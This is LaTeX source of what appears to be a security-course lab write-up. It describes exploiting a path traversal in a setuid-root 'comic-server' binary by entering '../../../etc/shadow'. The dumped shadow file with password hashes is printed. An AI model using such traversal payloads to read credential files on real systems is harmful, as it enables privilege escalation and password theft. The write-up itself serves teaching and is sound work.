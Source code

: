 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{enumerate}[label=(\alph*)]
    \pagebreak
    \item \textbf{Steps}
    \begin{enumerate}[label=(\arabic*)]
      \item There is \verb|README.txt| in \verb|/home/nasa2023|. It gives some
      information regarding \verb|/root/comic-server/comic-server|.
      \item Run \verb|stat /root/comic-server|. We discover that its file permissions
      is set to \verb|4755|, with \verb|setuid| on.
      \begin{Verbatim}[frame=single, fontsize=\small, commandchars=\\\{\}]
localhost:~$ stat /root/comic-server/comic-server
  File: /root/comic-server/comic-server
  Size: 19384           Blocks: 40         IO Block: 4096   regular file
Device: 803h/2051d      Inode: 130039      Links: 1
\textcolor{red}{Access: (4755/-rwsr-xr-x)}  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-06-07 22:45:40.289998287 +0800
Modify: 2024-05-09 22:33:04.379999973 +0800
Change: 2024-05-09 22:33:13.406666636 +0800
      \end{Verbatim}
      \item Dive into \verb|comic-server.c|. We see that in \verb|void read_comic()|, the
      user input \verb|comic_name| is append after \verb|path|. Therefore, we can
      engineer \verb|comic_name| to contain multiple leading \verb|../|'s to access
      any file as root.
      \item Run \verb|/root/comic-server/comic-server|. Choose \verb|2. Read a comic| and
      type in \verb|../../../etc/shadow| as the comic name. This allows us to see the
      content of \verb|/etc/shadow| and therefore obtain nasa2024's hashed password.
      \begin{Verbatim}[frame=single, fontsize=\scriptsize, breaklines, breakanywhere, breakanywheresymbolpre=]
localhost:/etc$ localhost:/etc$ /root/comic-server/comic-server
Welcome to my comic server!
I have a lot of comic for you to read. Enjoy!
Please select your action:
1. List all comic
2. Read a comic
3. Submit a comic
4. Talk to root
5. Exit
2
Please enter the comic name: ../../../etc/shadow
root:$6$M03rcP5w38H7hYwm$HWKrqjG9ZdY97E2eKWjNIt6biVCVPkVxZZvsfYPoEtk9P30.PfAzgtjI2IPXj9u7Mo0vLxp7U0u.MjFGXehKu.:19850:0:::::
(...)
nasa2023:$6$6qkngoIeqsMizLEE$Mw3jduV64bfY3yd0otGjaMh2nRJFO/WwXGE6qHF27bbZZq15MJORt3JMy54gfSiDJY43AhNeVynnQHGWp4cz41:19850:0:99999:7:::
student:$6$I7GFgsWJRqjNEt1R$ZmWXyy8rK.Imn0V4Jk6Nr7DpjZmoNTZffrtH9pw4ZVr9GX3NYU09pCA7HOtw7flIxXsmjNt7pQwqk9xslrKhi1:19850:0:99999:7:::
nasa2024:$6$fho8wb1AS1tFC5N3$/eNgObHyRphLNbS4FpeAd2wZG.lk33kIVVK21bJDG46rOJ7SsbglPPyw39IrS5YGyPibFD.S4MAih82ldPjFO1:19850:0:99999:7:::
      \end{Verbatim}


\end{enumerate}
\end{enumerate}
\end{document}
